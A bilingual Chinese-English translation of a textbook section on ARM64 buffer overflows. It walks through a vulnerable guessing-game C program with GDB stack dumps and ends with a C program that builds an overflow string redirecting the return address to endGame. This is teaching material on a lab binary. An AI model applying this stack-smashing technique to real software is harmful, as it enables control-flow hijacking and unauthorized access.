




> [!WARNING] 说明
> 本文是个人学习用的**非官方**中英对照译文，原文：<https://diveintosystems.org/book/C9-ARM64/buffer_overflow.html>。
> 原书采用 CC BY-NC-ND 4.0 许可（禁止演绎），**请勿公开传播本译文**。
> 标为「译注」「现代更新」的内容是译者补充，不代表原书作者观点；代码与原文逐字一致，未作改动。


*9.10. Real World: Buffer Overflow*

C 语言不会自动做数组越界检查。访问数组边界以外的内存是有问题的，常常导致段错误之类的错误。然而，聪明的攻击者可以注入恶意代码，故意越过数组（也称为**缓冲区**，buffer）的边界，迫使程序以非预期的方式执行。在最坏的情况下，攻击者可以运行代码获得 **root 权限**，也就是对计算机系统的操作系统级访问权。利用程序中已知的缓冲区越界错误来达到目的的软件，称为**缓冲区溢出攻击**（buffer overflow exploit）。

> The C language does not perform automatic array bounds checking. Accessing memory outside of the bounds of an array is problematic and often results in errors such as segmentation faults. However, a clever attacker can inject malicious code that intentionally overruns the boundary of an array (also known as a **buffer**) to force the program to execute in an unintended manner. In the worst cases, the attacker can run code that allows them to gain **root privilege**, or OS-level access to the computer system. A piece of software that takes advantage of the existence of a known buffer overrun error in a program is known as a **buffer overflow exploit**.

本节我们使用 GDB 和汇编语言，完整剖析缓冲区溢出攻击的机制。阅读本章之前，建议先看看讲解[用 GDB 检查汇编代码](../C3-C_debug/3.5-gdb_assembly.html)的那一章。

> In this section, we use GDB and assembly language to fully characterize the mechanics of a buffer overflow exploit. Prior to reading this chapter we encourage you to explore the chapter discussing [GDB for inspecting assembly code](../C3-C_debug/3.5-gdb_assembly.html).

### 9.10.1. 著名的缓冲区溢出案例

*9.10.1. Famous Examples of Buffer Overflow*

缓冲区溢出攻击出现于 20 世纪 80 年代，直到 21 世纪头几年一直是计算机行业的头号祸害。虽然许多现代操作系统已经能防御最简单的缓冲区溢出攻击，但粗心的编程错误仍然可能让现代程序门户大开。最近在 Skype<sup>1</sup>、Android<sup>2</sup>、Google Chrome<sup>3</sup> 等软件中都发现过缓冲区溢出漏洞。

> Buffer overflow exploits emerged in the 1980s and remained a chief scourge of the computing industry through the early parts of the 2000s. While many modern operating systems have protections against the simplest buffer overflow attacks, careless programming errors can still leave modern programs wide open to attack. Buffer overflow exploits have recently been discovered in Skype<sup>1</sup>, Android<sup>2</sup>, Google Chrome<sup>3</sup>, and others.

下面是几个著名的历史案例。

> Here are some notable historic examples of buffer overflow exploits.

- **莫里斯蠕虫**（The Morris Worm）

  莫里斯蠕虫<sup>4</sup>于 1988 年从 MIT 释放到 ARPANet 上（为的是掩盖它出自康奈尔大学一名学生之手），它利用了 UNIX finger 守护进程（`fingerd`）中的一个缓冲区越界漏洞。在 Linux 和其他类 UNIX 系统中，**守护进程**（daemon）是一类在后台持续运行的进程，通常执行清理和监控任务。`fingerd` 守护进程返回关于某台计算机或某个人的友好报告。最要命的是，这个蠕虫的复制机制会把它多次发送到同一台计算机上，把系统拖到无法使用的地步。尽管作者声称这个蠕虫只是一次无害的智力练习，但复制机制让它极易传播，也很难清除。此后多年，还有其他蠕虫利用缓冲区溢出攻击未经授权进入系统，著名的有 Code Red（2001）、MS-SQLSlammer（2003）和 W32/Blaster（2003）。

> - **The Morris Worm**
>
>   The Morris Worm<sup>4</sup> was released in 1988 on ARPANet from MIT (to hide that it was written by a student at Cornell) and exploited a buffer overrun vulnerability that existed in the Unix finger daemon (`fingerd`). In Linux and other Unix-like systems, a **daemon** is a type of process that continuously executes in the background, usually performing clean-up and monitoring tasks. The `fingerd` daemon returns a user-friendly report on a computer or person. Most crucially, the worm had a replication mechanism that caused it to be sent to the same computer multiple times, bogging down the system to an unusable state. While the author claimed that the worm was meant as a harmless intellectual exercise, the replication mechanism enabled the worm to spread easily and made it difficult to remove. In future years, other worms would employ buffer overflow exploits to gain unauthorized access into systems. Notable examples include Code Red (2001), MS-SQLSlammer (2003), and W32/Blaster (2003).

- **AOL 聊天大战**（AOL Chat Wars）

  前微软工程师 David Auerbach<sup>5</sup> 详细讲述了他在 20 世纪 90 年代末把微软的 Messenger Service（MMS）与 AOL Instant Messenger 打通时遭遇的一次缓冲区溢出。那时，想和亲友即时通信（IM），AOL Instant Messenger（AIM）是*不二之选*。微软想在这个市场站稳脚跟，就在 MMS 中设计了一个功能，让 MMS 用户能和他们的 AIM「好友」聊天。AOL 很不高兴，给服务器打了补丁，让 MMS 无法再连上。微软工程师想出办法让 MMS 客户端模仿 AIM 客户端发给 AOL 服务器的消息，使 AOL 难以区分消息来自 MMS 还是 AIM。AOL 的回应是改变 AIM 发送消息的方式，MMS 工程师则相应地修改客户端消息，使之再次与 AIM 的一致。这场「聊天大战」一直持续，直到 AOL 开始利用*自家客户端里*的一个缓冲区溢出错误来验证发来的消息是否来自 AIM 客户端。由于 MMS 客户端没有同样的漏洞，聊天大战就此结束，AOL 获胜。

> - **AOL Chat Wars**
>
>   David Auerbach<sup>5</sup>, a former Microsoft engineer, detailed his experience with a buffer overflow during his efforts to integrate Microsoft’s Messenger Service (MMS) with AOL Instant Messenger in the late 1990s. Back then, AOL Instant Messenger (AIM) was *the* service to use if you wanted to instant message (or IM) friends and family. Microsoft tried to gain a foothold in this market by designing a feature in MMS that enabled MMS users to talk to their AIM "buddies." Displeased, AOL patched their servers so that MMS could no longer connect to them. Microsoft engineers figured out a way for MMS clients to mimic the messages sent by AIM clients to AOL servers, making it difficult for AOL to distinguish between messages received by MMS and AIM. AOL responded by changing the way AIM sent messages, and MMS engineers duly changed their client’s messages to once again match AIM’s. This "chat war" continued until AOL started using a buffer overflow error *in their own client* to verify that sent messages came from AIM clients. Since MMS clients did not have the same vulnerability, the chat wars ended, with AOL as the victor.

### 9.10.2. 初探：猜谜游戏

*9.10.2. A First Look: The Guessing Game*

为了帮助你理解缓冲区溢出攻击的机制，我们提供了一个简单程序的可执行文件，用户可以和它玩猜谜游戏。在[这个链接](https://diveintosystems.org/book/C9-ARM64/_attachments/secretARM64.tar.gz)下载 `secret` 可执行文件，并用 `tar` 命令解压：

> To help you understand the mechanism of the buffer overflow attack, we provide an executable of a simple program that enables the user to play a guessing game with the program. Download the `secret` executable at [this link](https://diveintosystems.org/book/C9-ARM64/_attachments/secretARM64.tar.gz) and extract it using the `tar` command:

```
$ tar -xzvf secretARM64.tar.gz
```

下面给出与该可执行文件对应的主文件 `main.c`（[main.c](https://diveintosystems.org/book/C9-ARM64/_attachments/main.c)）的副本：

> In the following, we provide a copy of `main.c` ([main.c](https://diveintosystems.org/book/C9-ARM64/_attachments/main.c)), the main file associated with the executable:

```
#include <stdio.h>
#include <stdlib.h>
#include "other.h"

int endGame(void){
  printf("You win!\n");
  exit(0);
}

int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%s", buf);
  guess = atoi(buf);
  secret=getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%s", buf);
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}

int main(void) {
  int res = playGame();
  return res;
}
```

这个游戏先提示用户输入一个秘密数字，再输入一个秘密字符串，两者都对才能赢。头文件 `other.h` 包含 `getSecretCode` 和 `calculateValue` 函数的定义，但我们拿不到它。那么用户怎样才能打败这个程序？暴力穷举会花太长时间。一种策略是在 GDB 中分析 `secret` 可执行文件，单步执行汇编代码，找出秘密数字和字符串。通过检查汇编代码来弄清它如何工作的过程，通常称为**逆向工程**（reverse engineering）。对 GDB 和阅读汇编足够熟练的读者，应该能用 GDB 逆向出秘密数字和秘密字符串。

> This game prompts the user to enter first a secret number and then a secret string to win the guessing game. The header file `other.h` contains the definition of the `getSecretCode` and `calculateValue` functions, but it is unavailable to us. How then can a user beat the program? Brute forcing the solution will take too long. One strategy is to analyze the `secret` executable in GDB and step through the assembly to reveal the secret number and string. The process of examining assembly code to reveal knowledge of how it works is commonly referred to as **reverse engineering**. Readers comfortable enough with GDB and reading assembly should be able to use GDB to reverse engineer the secret number and the secret string.

不过，还有另一种更狡猾的取胜方法。

> However, there is a different, sneakier way to win.

### 9.10.3. 仔细看看（C 之下）

*9.10.3. Taking a Closer Look (Under the C)*

程序在第一次调用 `scanf` 处有一个潜在的缓冲区越界漏洞。为了弄清发生了什么，我们用 GDB 查看 `main` 函数的汇编代码。我们还在地址 0x0000aaaaaaaaa92c 处设一个断点，它是调用 `scanf` 之前那条指令的地址（如果把断点设在 `scanf` 的地址上，程序会停在 `scanf` 调用*内部*，而不是 `main` 中），然后用 `ni` 向前执行一条指令：

> The program contains a potential buffer overrun vulnerability at the first call to `scanf`. To understand what is going on, let’s inspect the assembly code of the `main` function using GDB. Let’s also place a breakpoint at address 0x0000aaaaaaaaa92c, which is the address of the instruction right before the call to `scanf` (placing the breakpoint at the address for `scanf` causes program execution to halt *inside* the call to `scanf`, not in `main`) and then use `ni` to advance forward one instruction:

```
Dump of assembler code for function playGame:
   0x0000aaaaaaaaa908 <+0>:	stp	x29, x30, [sp, #-48]!
   0x0000aaaaaaaaa90c <+4>:	mov	x29, sp
   0x0000aaaaaaaaa910 <+8>:	mov	w0, #0x3
   0x0000aaaaaaaaa914 <+12>:	str	w0, [x29, #44]
   0x0000aaaaaaaaa918 <+16>:	adrp	x0, 0xaaaaaaaaa000
   0x0000aaaaaaaaa91c <+20>:	add	x0, x0, #0xac0
   0x0000aaaaaaaaa920 <+24>:	bl	0xaaaaaaaaa730 <puts@plt>
   0x0000aaaaaaaaa924 <+28>:	add	x1, x29, #0x18
   0x0000aaaaaaaaa928 <+32>:	adrp	x0, 0xaaaaaaaaa000
   0x0000aaaaaaaaa92c <+36>:	add	x0, x0, #0xad8
=> 0x0000aaaaaaaaa930 <+40>:	bl	0xaaaaaaaaa740 <__isoc99_scanf@plt>
```

[图 1](9.10-buffer_overflow.html) 描绘了调用 `scanf` 之前那一刻的栈。

> [Figure 1](9.10-buffer_overflow.html) depicts the stack immediately before the call to `scanf`.



**图 1.** 调用 scanf 之前那一刻的调用栈

*Figure 1. The call stack immediately before the call to scanf*

调用 `scanf` 之前，它的前两个参数被分别预先加载到寄存器 `x0` 和 `x1` 中。数组 `buf` 的地址存放在栈位置 `x29+0x18` 处（见 `<playGame+28>`）。

> Prior to the call to `scanf`, the first two arguments for `scanf` are preloaded into registers `x0` and `x1`, respectively. The address of array `buf` is stored at stack location `x29+0x18` (see `<playGame+28>`).

> [!NOTE] 译注
> 更准确地说，`buf` 本身就位于 `x29+0x18`；`<playGame+28>` 处的 `add x1, x29, #0x18` 把这个地址算出来放进 `x1`，作为 `scanf` 的第二个参数。

现在，假设用户在提示符处输入 `1234567890`。[图 2](9.10-buffer_overflow.html) 展示了 `scanf` 调用刚刚完成时栈的样子。

> Now, suppose that the user enters `1234567890` at the prompt. [Figure 2](9.10-buffer_overflow.html) illustrates what the stack looks like immediately after the call to `scanf` completes.



**图 2.** 输入 1234567890 时，scanf 调用刚完成那一刻的调用栈

*Figure 2. The call stack immediately after the call to scanf with input 1234567890*

回忆一下，数字 0 到 9 的 ASCII 编码的十六进制值是 0x30 到 0x39，并且每个栈内存位置是八个字节长。`main` 的帧指针距离栈指针 56 字节。跟着操作的读者可以用 GDB 打印 `x29` 的值（`p x29`）来确认。在这个例子中，保存的 `x29` 的值是 0xffffffffeef0。下面的命令可以查看寄存器 `sp` 之下的 64 个字节（以十六进制显示）：

> Recall that the hex values for the ASCII encodings of the digits 0 to 9 are 0x30 to 0x39, and that each stack memory location is eight bytes long. The frame pointer for `main` is 56 bytes away from the stack pointer. Readers tracing along can confirm the value of `x29` by using GDB to print its value (`p x29`). In the example shown, the saved value of `x29` is 0xffffffffeef0. The following command allows the reader to inspect the 64 bytes (in hex) below register `sp`:

> [!NOTE] 译注
> 按下面的 GDB 输出，`sp` 是 0xffffffffeec0，`main` 的帧指针（保存在栈顶的那个值）是 0xffffffffeef0，两者相差 0x30 即 48 字节（也正好是 `playGame` 开头 `stp x29, x30, [sp, #-48]!` 分配的栈帧大小），而不是 56 字节。

```
(gdb) x /64bx $sp
```

这条 GDB 命令的输出类似这样：

> This GDB command yields output that looks similar to the following:

```
(gdb) x /64bx $sp
0xffffffffeec0:	0xf0	0xee	0xff	0xff	0xff	0xff	0x00	0x00
0xffffffffeec8:	0xf0	0xa9	0xaa	0xaa	0xaa	0xaa	0x00	0x00
0xffffffffeed0:	0x10	0xef	0xff	0xff	0xff	0xff	0x00	0x00
0xffffffffeed8:	0x31	0x32	0x33	0x34	0x35	0x36	0x37	0x38
0xffffffffeee0:	0x39	0x30	0x00	0xaa	0xaa	0xaa	0x00	0x00
0xffffffffeee8:	0x00	0x00	0x00	0x00	0x03	0x00	0x00	0x00
0xffffffffeef0:	0x10	0xef	0xff	0xff	0xff	0xff	0x00	0x00
0xffffffffeef8:	0xe0	0x36	0x58	0xbf	0xff	0xff	0x00	0x00
```

每一行代表一个 64 位地址，或者说两个 32 位地址。所以，与 32 位地址 0xffffffffeedc 对应的值，位于显示 0xffffffffeed8 的那一行最右边的四个字节。

> Each line represents one 64-bit address, or two 32-bit addresses. So, the value associated with the 32-bit address 0xffffffffeedc is located at the rightmost four bytes of the line showing 0xffffffffeed8.

> [!NOTE] 原书注 · 多字节的值按小端序存储（Multibyte values are stored in little-endian order）
> 在前面的汇编片段中，地址 0xffffffffeec0 处的字节是 0xf0，地址 0xffffffffeec1 处的字节是 0xee，地址 0xffffffffeec2 处的字节是 0xff，地址 0xffffffffeec3 处的字节是 0xff，地址 0xffffffffeec4 处的字节是 0xff，地址 0xffffffffeec5 处的字节是 0xff。然而，地址 0xffffffffeec0 处的 64 位*值*实际上是 0xffffffffeef0。记住，由于 ARM64 默认是[小端](../C4-Binary/4.7-byte_order.html)系统，地址这类多字节值的各个字节是按相反顺序存储的。
>
> > In the preceding assembly segment, the byte at address 0xffffffffeec0 is 0xf0, the byte at address 0xffffffffeec1 is 0xee, the byte at address 0xffffffffeec2 is 0xff, the byte at address 0xffffffffeec3 is 0xff, the byte at address 0xffffffffeec4 is 0xff, and the byte at address 0xffffffffeec5 is 0xff. However, the 64-bit *value* at address 0xffffffffeec0 is in fact 0xffffffffeef0. Remember that because ARM64 is a [little-endian](../C4-Binary/4.7-byte_order.html) system by default, the bytes for multibyte values such as addresses are stored in reverse order.

在这个例子中，`buf` 的地址位于 0xffffffffeed8。因此，接下来的两个地址存放的是输入字符串 `1234567890` 对应的字节：

> In this example, the address for `buf` is located at address 0xffffffffeed8. Therefore, the following two addresses hold the bytes associated with input string `1234567890`:

```
0xffffffffeed8:	0x31	0x32	0x33	0x34	0x35	0x36	0x37	0x38
0xffffffffeee0:	0x39	0x30	0x00	0xaa	0xaa	0xaa	0x00	0x00
```

空字符 `\0` 出现在地址 0xffffffffeee2 处的第三个字节位置。回想一下，`scanf` 会在所有字符串末尾加上一个空字节。

> The null termination byte `\0` appears in the third byte location at address 0xffffffffeee2. Recall that `scanf` terminates all strings with a null byte.

当然，`1234567890` 不是秘密数字。下面是用输入字符串 `1234567890` 运行 `secret` 时的输出：

> Of course, `1234567890` is not the secret number. Here is the output when we try to run `secret` with input string `1234567890`:

```
$ ./secret
$ ./secret
Enter secret number:
1234567890
You are so wrong!
$ echo $?
1
```

`echo $?` 命令打印 shell 中上一条命令的返回值。在这里，程序返回了 1，因为我们输入的秘密数字是错的。回想一下，按照惯例，程序在没有错误时返回 0。接下来我们的目标是骗程序以返回值 0 退出，表示我们赢了游戏。

> The `echo $?` command prints out the return value of the last executed command in the shell. In this case, the program returned 1, because the secret number we entered is wrong. Recall that by convention, programs return 0 when there are no errors. Our goal going forward is to trick the program to exit with a 0 return value, indicating that we won the game.

### 9.10.4. 缓冲区溢出：第一次尝试

*9.10.4. Buffer Overflow: First Attempt*

接下来，试着输入字符串 `12345678901234567890123456789012345`：

> Next, let’s try typing in the string `12345678901234567890123456789012345`:

```
$ ./secret
Enter secret number:
12345678901234567890123456789012345
You are so wrong!
Bus error
$ echo $?
139
```

有意思！现在程序因总线错误（bus error，另一种内存错误）崩溃了，返回码是 139。[图 3](9.10-buffer_overflow.html) 展示了用这个新输入调用 `scanf` 刚完成时 `main` 的调用栈。

> Interesting! Now the program crashes with a bus error (another type of memory error), with return code 139. [Figure 3](9.10-buffer_overflow.html) shows what the call stack for `main` looks like immediately after the call to `scanf` with this new input.

> [!NOTE] 译注 · 总线错误与 139 对不上
> shell 报告的退出状态是 128 + 信号编号。在 x86 和 ARM 上的 Linux 中，`SIGSEGV`（段错误）是 11、`SIGBUS`（总线错误）是 7（见 [signal(7)](https://man7.org/linux/man-pages/man7/signal.7.html) 的信号编号表），所以 139 对应的是段错误；真正的总线错误应得到 135。原书的输出可能是两次运行拼在一起的，你自己运行时看到哪种错误都正常，原理相同：返回地址被覆盖成了无效地址。



**图 3.** 输入 12345678901234567890123456789012345 时，scanf 调用刚完成那一刻的调用栈

*Figure 3. The call stack immediately after the call to scanf with input 12345678901234567890123456789012345*

输入字符串太长，不仅覆盖了存放在地址 0xeed8 处的保存的 `x29`，还溢出到了 `main` 栈帧下方的返回地址。回想一下，函数返回时，程序会尝试从返回地址指定的位置继续执行。在这个例子中，程序退出 `main` 后试图从地址 0xffff00353433 处继续执行，而这个地址看起来并不存在，于是程序因总线错误崩溃。

> The input string is so long that it not only overwrote the saved `x29` stored at address 0xeed8, but it spilled over into the return address below the stack frame for `main`. Recall that when a function returns, the program tries to resume execution at the address specified by the return address. In this example, the program tries to resume execution at address 0xffff00353433 after exiting `main`, which does not appear to exist. So the program crashes with a bus error.

> [!NOTE] 译注 · 为什么要把代码放进 playGame
> 注意 ARM64 的栈帧布局与 x86 不同：函数开头的 `stp x29, x30, [sp, #-48]!` 把帧记录（保存的 `x29` 和返回地址 `x30`）存在栈帧的*最低*地址处（0xeec0、0xeec8），局部数组 `buf` 位于它的*上方*（0xeed8）。所以 `buf` 溢出时，向高地址写，根本碰不到 `playGame` 自己的返回地址，而是越过 `playGame` 的栈帧，覆盖调用者 `main` 的帧记录：保存的 `x29` 在 0xeef0（原文写成 0xeed8 有误，0xeed8 是 `buf` 的起始地址），返回地址在 0xeef8。下面的 GDB 输出也印证了这一点：`playGame` 正常返回到了 `main`（`0x0000aaaaaaaaa9f0 in main ()`），直到 `main` 返回时才跳到被篡改的地址 0x0000ffff00353433。这正是本节程序把游戏逻辑放进单独的 `playGame` 函数的原因。

在 GDB 中重新运行程序（`input.txt` 中存放的是上面的输入字符串），可以看到这番破坏的实际过程：

> Rerunning the program in GDB (`input.txt` contains the input string above) reveals this devilry in action:

```
$ gdb secret
(gdb) break *0x0000aaaaaaaaa934
(gdb) run < input.txt
(gdb) ni
(gdb) x /64bx $sp
0xffffffffeec0:	0xf0	0xee	0xff	0xff	0xff	0xff	0x00	0x00
0xffffffffeec8:	0xf0	0xa9	0xaa	0xaa	0xaa	0xaa	0x00	0x00
0xffffffffeed0:	0x10	0xef	0xff	0xff	0xff	0xff	0x00	0x00
0xffffffffeed8:	0x31	0x32	0x33	0x34	0x35	0x36	0x37	0x38
0xffffffffeee0:	0x39	0x30	0x31	0x32	0x33	0x34	0x35	0x36
0xffffffffeee8:	0x37	0x38	0x39	0x30	0x31	0x32	0x33	0x34
0xffffffffeef0:	0x35	0x36	0x37	0x38	0x39	0x30	0x31	0x32
0xffffffffeef8:	0x33	0x34	0x35	0x00	0xff	0xff	0x00	0x00
(gdb) n
Single stepping until exit from function playGame,
which has no line number information.
You are so wrong!
0x0000aaaaaaaaa9f0 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x0000ffff00353433 in ?? ()
```

注意，我们的输入字符串冲破了数组 `buf` 声明的边界，覆盖了栈上存储的所有其他值。换句话说，我们的字符串造成了缓冲区越界，破坏了调用栈，导致程序崩溃。这个过程也被称为**栈粉碎**（smashing the stack）。

> Notice that our input string blew past the stated limits of the array `buf`, overwriting all the other values stored on the stack. In other words, our string created a buffer overrun and corrupted the call stack, causing the program to crash. This process is also known as **smashing the stack**.

### 9.10.5. 更聪明的缓冲区溢出：第二次尝试

*9.10.5. A Smarter Buffer Overflow: Second Attempt*

第一个例子用垃圾数据覆盖了 `main` 保存的 `x29` 寄存器和返回地址，粉碎了栈，导致程序崩溃。如果攻击者的目的只是让程序崩溃，到这一步就已经满意了。但我们的目标是骗猜谜游戏返回 0，表示我们赢了。为此，我们要用比垃圾值更有意义的数据填充调用栈。例如，可以覆盖栈，把返回地址替换成 `endGame` 的地址。这样，当程序试图从 `main` 返回时，它会去执行 `endGame`，而不是崩溃。

> Our first example smashed the stack by overwriting the saved `x29` register and return address for `main` with junk, causing the program to crash. An attacker whose goal is to simply crash a program would be satisfied at this point. However, our goal is to trick the guessing game to return 0, indicating that we won the game. We accomplish this by filling the call stack with data more meaningful than junk values. For example, we could overwrite the stack so that the return address is replaced with the address of `endGame`. Then, when the program attempts to return from `main`, it will instead execute `endGame` instead of crashing.

为了找出 `endGame` 的地址，我们再次在 GDB 中查看 `secret`：

> To find out the address of `endGame`, let’s inspect `secret` again in GDB:

```
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
   0x0000aaaaaaaaa8ec <+0>:	stp	x29, x30, [sp, #-16]!
   0x0000aaaaaaaaa8f0 <+4>:	mov	x29, sp
   0x0000aaaaaaaaa8f4 <+8>:	adrp	x0, 0xaaaaaaaaa000
   0x0000aaaaaaaaa8f8 <+12>:	add	x0, x0, #0xab0
   0x0000aaaaaaaaa8fc <+16>:	bl	0xaaaaaaaaa730 <puts@plt>
   0x0000aaaaaaaaa900 <+20>:	mov	w0, #0x0
   0x0000aaaaaaaaa904 <+24>:	bl	0xaaaaaaaaa6d0 <exit@plt>
```

可以看到，`endGame` 从地址 0x0000aaaaaaaaa8ec 开始。[图 4](9.10-buffer_overflow.html) 展示了一个迫使 `secret` 执行 `endGame` 函数的示例攻击字符串。

> Observe that `endGame` starts at address 0x0000aaaaaaaaa8ec. [Figure 4](9.10-buffer_overflow.html) illustrates a sample exploit that forces `secret` to run the `endGame` function.



**图 4.** 一个能迫使 secret 执行 endGame 函数的示例字符串

*Figure 4. A sample string that can force secret to execute the endGame function*

本质上就是 32 字节的垃圾值，后面跟着返回地址。同样，由于 ARM64 默认是[小端](../C4-Binary/4.7-byte_order.html)系统，返回地址中的字节看起来是倒序的。

> Essentially, there are 32 bytes of junk values followed by the return address. Again, because ARM64 is a [little-endian](../C4-Binary/4.7-byte_order.html) system by default, the bytes in the return address appear to be in reverse order.

> [!NOTE] 译注
> 32 字节 = 从 `buf`（0xeed8）到 `main` 的返回地址槽位（0xeef8）的距离 0x20。地址中的 `0xaaaaaaaaa8ec` 是 PIE 程序在关闭地址随机化后的加载地址，所以下文要先关掉 ASLR，这个硬编码的地址才有效。

下面的程序演示了攻击者可以如何构造前面那个攻击字符串：

> The following program illustrates how an attacker could construct the preceding exploit:

```
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x00\x00" /*last 2 bytes of junk*/
"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```

